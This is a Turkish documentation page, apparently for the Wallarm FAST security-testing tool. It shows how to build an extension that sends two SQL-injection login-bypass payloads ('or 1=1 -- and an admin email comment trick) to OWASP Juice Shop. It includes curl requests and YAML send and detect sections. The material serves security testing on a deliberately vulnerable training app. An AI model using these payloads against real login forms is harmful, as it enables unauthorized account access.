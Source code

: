 [link-meta-info]:           ../create-extension.md#structure-of-the-meta-info-section  
[link-send-headers]:        ../phase-send.md  
[link-using-extension]:     ../using-extension.md  
[link-app-examination]:     app-examination.md

[doc-send-phase]:           ../phase-send.md  
[doc-detect-phase]:         ../detect/phase-detect.md

[link-juice-shop]:          https://www.owasp.org/index.php/OWASP_Juice_Shop_Project



# Değişiklik Yapmayan Eklentinin Oluşturulması

Bu belgede tanımlanan eklenti, gelen temel isteğe bazı yükler enjekte etmek amacıyla değiştirilmez. Bunun yerine, temel istekte belirtilen ana makineye iki önceden tanımlanmış test isteği gönderilecektir. Bu test istekleri, hedef uygulamanın [“OWASP Juice Shop”][link-juice-shop] giriş formundaki SQLi açığının istismarına yol açabilecek yükleri içermektedir.


## Hazırlıklar

FAST eklentisi oluşturulmadan önce, hedef uygulamanın davranışını [incelemeniz][link-app-examination] şiddetle tavsiye edilir.


## Eklenti Oluşturma

Eklentiyi tanımlayan (ör., `non-mod-extension.yaml`) bir dosya oluşturun ve gerekli bölümlerle doldurun:

1.  [**The `meta-info` section**][link-meta-info].

    Eklentinin tespit etmeye çalışacağı açığın tanımını hazırlayın.
    
    * açık başlığı: `OWASP Juice Shop SQLi (non-mod extension)`
    * açık açıklaması: `Demo of SQLi in OWASP Juice Shop (Admin Login)`
    * açık türü: SQL injection
    * açık tehdit seviyesi: yüksek
    
    İlgili `meta-info` bölümünün görünümü aşağıdaki gibidir:
    
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (non-mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'
    ```
    
2.  **The `send` section, the [Send phase][doc-send-phase]**

    Hedef uygulamadaki SQL injection açığını istismar etmek için, herhangi bir `password` değeri ile birlikte `email` parametresi değeri olarak gönderilmesi gereken iki payload bulunmaktadır:
    
    * `'or 1=1 --`
    * `admin@juice-sh.op'--`
    
    İki test isteği oluşturabilirsiniz; her biri:
    
    * Yukarıda tanımlanan değerlerden biriyle `email` parametresine sahip ve 
    * Rasgele bir değerle `password` parametresine sahip olacaktır.

    Örnek hedef uygulama (OWASP Juice Shop) üzerinde test gerçekleştirmek için bu isteklerden yalnızca birini kullanmak yeterlidir.
    
    Ancak, gerçek bir uygulamanın güvenlik testleri sırasında, birkaç hazır test isteğine sahip olmak faydalı olabilir: Uygulamadaki güncellemeler ve iyileştirmeler nedeniyle isteklerden biri artık bir açığı istismar edemiyorsa, diğer payload'lar sayesinde açığı hala istismar edebilecek başka test istekleri mevcut olacaktır.

    Yukarıdaki listedeki ilk payload içeren istek aşağıdakine benzer:
    
    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"'\''or 1=1 --", "password":"12345"}'
    ```

    İkinci istek de ilkine benzer:

    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"admin@juice-sh.op'\''--", "password":"12345"}'
    ```

    Bu iki test isteğinin açıklamalarını içeren `send` bölümünü ekleyin:
    
    ```
    send:
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"''or 1=1 --","password":"12345"}'
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"admin@juice-sh.op''--","password":"12345"}'
    ``` 
    
    !!! info "Bir Not: `Host` Header Hakkında" 
        Bu isteklerde `Host` header atlanabilir çünkü bu belirli SQLi açığının istismarını etkilemez. Bir FAST düğümü, gelen temel isteklerden çıkarılan `Host` header'ı otomatik olarak ekleyecektir.
        
        Send aşamasının istek header'larını nasıl işlediğini [buradan][link-send-headers] okuyabilirsiniz.

3.  **The `detect` section, the [Detect phase][doc-detect-phase]**
    
    Aşağıdaki koşullar, yönetici haklarıyla kullanıcı doğrulamasının başarılı olduğunu gösterir:
    
    * Yanıt gövdesinde, `1` değeriyle alışveriş sepeti tanımlayıcı parametresinin bulunması. Parametre JSON formatındadır ve aşağıdaki gibi görünmelidir:
    
        ```
        "bid":1
        ```
    
    * Yanıt gövdesinde, `admin@juice-sh.op` değeriyle kullanıcı e-posta parametresinin bulunması. Parametre JSON formatındadır ve aşağıdaki gibi görünmelidir:
    
        ```
         "umail":"admin@juice-sh.op"
        ```
    
    Yukarıda tanımlanan koşullara göre saldırının başarılı olup olmadığını kontrol eden `detect` bölümünü ekleyin.
    
    ```
    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```
    
!!! info "Özel Karakterlerin Kaçırılması"  
    Dizgilerdeki özel karakterlerin kaçırılmasını unutmayın.

## Eklenti Dosyası

Artık `non-mod-extension.yaml` dosyası, eklentinin çalışması için gereken tüm bölümleri içeren eksiksiz bir yapıya sahiptir. Dosya içeriğinin listesi aşağıda gösterilmiştir:

??? info "non-mod-extension.yaml"
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (non-mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'

    send:
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"''or 1=1 --","password":"12345"}'
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"admin@juice-sh.op''--","password":"12345"}'

    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```

## Eklentiyi Kullanma

Oluşturulan eklentinin nasıl kullanılacağı hakkında detaylı bilgi için, [bu belgeyi][link-using-extension] okuyun.